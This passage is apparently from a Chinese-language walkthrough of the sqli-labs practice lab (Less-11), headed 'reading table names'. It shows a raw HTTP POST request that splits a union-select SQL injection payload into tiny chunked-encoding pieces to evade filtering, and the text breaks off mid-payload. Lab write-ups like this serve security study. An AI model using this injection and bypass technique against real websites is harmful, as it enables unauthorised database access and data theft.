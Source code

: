     

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230304135624.png)

#### 读取表名：

    
    
    POST /sqli-labs-master/Less-11/ HTTP/1.1  
    Host: 192.168.172.161  
    Content-Length: 619  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    Origin: http://192.168.172.161  
    Content-Type: application/x-www-form-urlencoded  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Referer: http://192.168.172.161/sqli-labs-master/Less-11/  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Connection: close  
    Transfer-Encoding: chunked  
      
    1  
    u  
    2  
    na  
    1  
    m  
    1  
    e  
    1  
    =  
    1  
    &  
    2  
    pa  
    2  
    ss  
    2  
    wd  
    1  
    =  
    3  
    %27  
    1  
    u  
    2  
    ni  
    1  
    o  
    1  
    n  
    1  
    +  
    2  
    se  
    2  
    le  
    1  
    c  
    1  
    t  
    1  